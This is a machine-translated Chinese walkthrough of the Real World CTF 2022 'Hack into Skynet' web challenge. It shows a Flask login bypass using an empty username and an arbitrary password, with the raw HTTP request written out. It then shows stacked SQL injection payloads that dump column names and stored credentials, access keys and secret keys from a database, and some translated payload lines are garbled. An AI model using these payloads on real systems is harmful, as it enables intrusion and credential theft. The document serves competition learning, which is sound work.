# 侵入天网-真实世界 CTF (2022)演练

> 原文：<https://infosecwriteups.com/hack-into-skynet-real-world-ctf-2022-walkthrough-eb0e3908d9a7?source=collection_archive---------0----------------------->


你好，黑客ッ✋✋，

在这篇文章中，我分享了一个在真实世界 CTF 2022 上 pwn 网络挑战的潜在方法。所有的挑战都建立在真实世界的应用之上&由于新冠肺炎的影响，第四届真实世界 CTF 是在线模式。从挑战的定义本身，我理解有 SQLI 漏洞。我花了大约 24 小时。但是我失败了！

我如实向**[**Fanky**](https://github.com/el-queso)&[**xl00t**](https://gist.github.com/xl00t)**表示感谢。在 CTF 直播期间，挑战让我恶心。虽然，在与那些提到的人交流之后，我回来了&用一个新的视角做了这件事。这就是为什么我要为这个特别的发表一篇文章。所以让我们开始吧，****

****

> ****挑战名称:** *黑进天网* **挑战类型:** *Web* **难度等级:** *薛定谔***

```
*(A hypothetical cat assumed simultaneously both alive and dead. Likewise, the challenge may be* ***"easy or insane***")
```

## **有两种方法可以解决这个问题。**

***——>“你更喜欢哪种方式？”***

```
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++**Solutions:**1\. *Login bypass via exploiting the logic error & then SQLI 
(WAF bypassing).*2\. *Abusing the Flask.*++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
```

**你可以在这里查看第二个场景:“[滥用瓶子](https://gist.github.com/zTrix/9cbcfdeff0c404e4b95454b2b13e9318)”**

## ***利用逻辑错误绕过登录***

****

**登录页面**

**上面的界面是挑战的起点。还有一个附件。通过仔细阅读代码，我们将了解它是如何工作的。**

## **代码分析(给定附件)**

## **简短的说明**

*   **会话 ID 是网站服务器在用户会话期间分配给特定客户端的唯一编号。在这里，会话 ID 存储为一个 cookie。**

********

**很明显，一旦我们登录，服务器就会为我们的会话分配一个特殊的唯一 ID。在此之前，cookie 将为空(不存在)。**

> *****点:***
> 如果我们能够获得 sessionId，我们将获得初始系统入口。**

********

*   **在尝试恶意行为时，我们将被标记为攻击者&不允许抓取页面(返回 403)。**
*   **我尝试用 SQLi 绕过登录页面，但每次都返回 403。**

****

**403**

*   **用户名和密码也给定了。我尝试了一些努力，但不值得。**

****

**代码里还有些东西，需要的话我们会回来的。**

## **逻辑误差**

**脆弱点就粘在正下方。你能认出下面代码中的错误吗？这是我震惊的地方&在比赛中流汗。这个我以前想不通。**

****

*   **username = flask . request . form . get(' username '，'')**

```
*If we send blank value in “username” parameter, 
username will be --> "*⇩⇩⇩*username = flask.request.form.get(‘username’, ‘’) = “*
```

*   **password = flask . request . form . get(' password '，'')**

```
And if we specify a password in the "password" parameter, it'll escape from "if check" & wouldn't return false.⇩⇩⇩username = flask.request.form.get('username', '')
password = flask.request.form.get('password', '')if not username and not password:

                return False
```

****

**它查询数据库，但不会找到任何东西。因此，在下面的情况下，执行 else 部分。那么参数“名称”被设置为→”**

```
name = user[0][1] if user and user[0] and user[0][1] else ‘’(line no: 105)
```

**最后，参数“名称”和“用户名”变得相同→“
。因此，**

```
return name == username (Condition is: return True)
```

****

**繁荣..！！发现漏洞。
现在我们可以有意义地滥用这个。**

****

## **剥削**

```
POST /login HTTP/1.1
Host: 47.242.21.212:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: [http://47.242.21.212:8081](http://47.242.21.212:8081)
Connection: close
Referer: [http://47.242.21.212:8081/login](http://47.242.21.212:8081/login)
Upgrade-Insecure-Requests: 1
Sec-GPC: 1username=&password=ctf
```

**传递“用户名”中的空值和“密码”参数
中的任意值(正如我们上面讨论的)，我们可以绕过登录页面。服务器返回 SessionId。我们终于登录了。**

```
username=&password=any_value
```

****

**登录成功**

# **SQL 注入**

**从界面本身来看，很明显是时候进行 SQL 注入了。**

****

**登录后**

## **后端数据库标识:**

**之前在做代码分析的时候就注意到了。**

********

**希望你能理解**

## **SQLi 确认**

**因为我们从附件代码中找到了表“target_credentials ”,所以很容易触发有效负载。**

****

****测试有效载荷(有效):****

```
'; select * from target_credentials limit 1 offset '1'; select * from target_credentials limit 1 offset '2'; select * from target_credentials limit 1 offset '3....etc. up to'; select * from target_credentials limit 1 offset '12
```

## **所有这些“最多 12 个”返回值&下一部分是我们的招牌动作。**

```
'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 1 offset '1**Query returns ⇣⇣⇣**account: None********************************************************************'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 1 offset '2**Query returns ⇣⇣⇣**password: None********************************************************************'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 1 offset '3**Query returns ⇣⇣⇣**access_key: None********************************************************************'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 1 offset '4**Query returns ⇣⇣⇣**secret_key: None********************************************************************
```

> **于是我们得到，
> 
> 1 =账号
> 2 =密码
> 3 =访问 _ 密钥
> 4 =秘密 _ 密钥**

**例如:**

**；select column_name，null from information _ schema . columns where table _ name = ' target _ credentials ' limit 1 offset ' 4**

****

**4 =秘密密钥**

**因此，我们知道在接下来的步骤中要提供什么。**

## **完成装订部移动**

> **1 =帐户**

**；选择帐户，target_credentials 限制 4 偏移量为空“0**

****

> **2=密码**

**；选择密码，target_credentials 限制 4 偏移量为空“0**

****

> **3 =访问密钥**

**；select access_key，target_credentials 限制 4 偏移量为空“0**

****

> **4 =秘密密钥**

**；select secret_key，从 target_credentials 限制 4 偏移量“0**

****

**嘣！！**

> **Yaay..！！
> 最后，我们 pwn 了天网。**

> **flag:RWC TF { t0-h4ck-$ kynet-0r-f1 ask _ that-Is-th3-question }**

****

**任务完成**

**你也可以用自动化来做这项工作。**

**漏洞代码:**

**信用: [xl00t](https://gist.github.com/xl00t)**

**我希望你喜欢我的文章。请随时与我联系并分享您的观点。你可以在这里找到我@[7h 3 H4 ckv 157](https://twitter.com/7h3h4ckv157)**

****

**再见..！！**

# **🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)**

**[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)**